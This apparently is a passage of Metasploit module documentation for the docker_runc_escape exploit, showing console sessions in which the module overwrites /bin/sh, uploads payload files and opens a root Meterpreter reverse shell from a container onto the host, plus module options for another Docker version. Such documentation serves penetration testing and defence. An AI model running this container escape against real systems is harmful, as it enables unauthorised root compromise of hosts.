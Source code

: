 ```
Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT  4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (Dropper) x64


msf6 exploit(linux/local/docker_runc_escape) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.144.1:4455
[*] Make a backup of /bin/sh (/tmp/wSCJRb1)
[*] Overwrite /bin/sh
[*] Upload payload
[*] Writing '/tmp/pMQAa0FYW' (250 bytes) ...
[*] Upload exploit
[*] Writing '/tmp/IP8LtTm7' (8672 bytes) ...
[*] Upload loop shell script ('runc' will be backed up to /tmp/MKM9z)
[*] Writing '/tmp/k41AYY' (344 bytes) ...
[*] Launch exploit loop and wait for 300 sec.
[*] Sending stage (3012548 bytes) to 192.168.144.135
[+] Deleted /tmp/pMQAa0FYW
[+] Deleted /tmp/IP8LtTm7
[+] Deleted /tmp/k41AYY
[+] Original runc binary restored
[*] Meterpreter session 2 opened (192.168.144.1:4455 -> 192.168.144.135:51916) at 2021-05-21 19:01:03 +0200
[*] Done. Waiting a bit more to make sure everything is setup...
[+] Session ready!

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.144.135
OS           : Ubuntu 18.04 (Linux 5.4.0-72-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > [*] Shutting down Meterpreter...
```

## Docker version 18.03.1-ce (build 9ee9f40) on Fedora 28 x64
```
msf6 exploit(linux/local/docker_runc_escape) > options

Module options (exploit/linux/local/docker_runc_escape):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   OVERWRITE    /bin/sh          yes       Shell to overwrite with /proc/self/exe
   SESSION      1                yes       The session to run this module on.
   SHELL        /bin/bash        yes       Shell to use in exploit script (must be different than OVERWRITE shell)
```

[1]: https://github.com/opencontainers/runc/releases/tag/v1.0.0-rc7
[2]: https://github.com/opencontainers/runc/commit/6635b4f0c6af3810594d2770f662f34ddc15b40d
[3]: https://github.com/docker/docker-ce/releases/tag/v18.09.2